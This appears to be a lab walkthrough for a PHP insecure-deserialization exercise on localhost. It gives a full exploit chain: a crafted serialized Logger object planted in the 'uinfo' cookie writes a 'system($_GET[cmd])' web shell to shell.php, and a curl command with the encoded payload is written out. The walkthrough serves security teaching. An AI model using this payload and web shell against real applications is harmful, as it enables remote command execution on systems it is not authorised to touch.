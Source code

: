 # Exploit Steps

First, in the "app" directory run `php -a`

Then run the following commands:

```
include 'logger-class.php';
$logger = new Logger();
$logger->filename = "./shell.php";
$logger->last_log = '<?php system($_GET["cmd"]); ?>';
$serialized = serialize($logger);
$encoded = urlencode($serialized);
print($encoded);
```

In order, we first include `logger-class.php`. Then we create a new instance of the Logger class and define some properties on that instance. We make the instance's filename `./shell.php`, which is where we will put the payload, and we set `last_log` as some PHP code that will grab whatever is in the `cmd` query parameter and execute as a system command. Next, we serialize the logger instance, we url encode the serialized string to make it safe for putting in our cookie, and then we finally print the resulting string, which is as follows:

`O%3A6%3A%22Logger%22%3A2%3A%7Bs%3A8%3A%22filename%22%3Bs%3A11%3A%22.%2Fshell.php%22%3Bs%3A8%3A%22last_log%22%3Bs%3A30%3A%22%3C%3Fphp+system%28%24_GET%5B%22cmd%22%5D%29%3B+%3F%3E%22%3B%7D`

Finally, visit your php server and replace the `uinfo` cookie with the encoded string above, or make the following curl request:

```
curl 'http://localhost:9002/' -H 'Cookie: uinfo=O%3A6%3A%22Logger%22%3A2%3A%7Bs%3A8%3A%22filename%22%3Bs%3A11%3A%22.%2Fshell.php%22%3Bs%3A8%3A%22last_log%22%3Bs%3A30%3A%22%3C%3Fphp+system%28%24_GET%5B%22cmd%22%5D%29%3B+%3F%3E%22%3B%7D' 
```

Now, visiting `http://localhost:9001/shell.php` and adding a `cmd` query parameter will execute that shell command. For instance, going to `http://localhost:9001/shell.php?cmd=ls` will print the files in the app's current directory

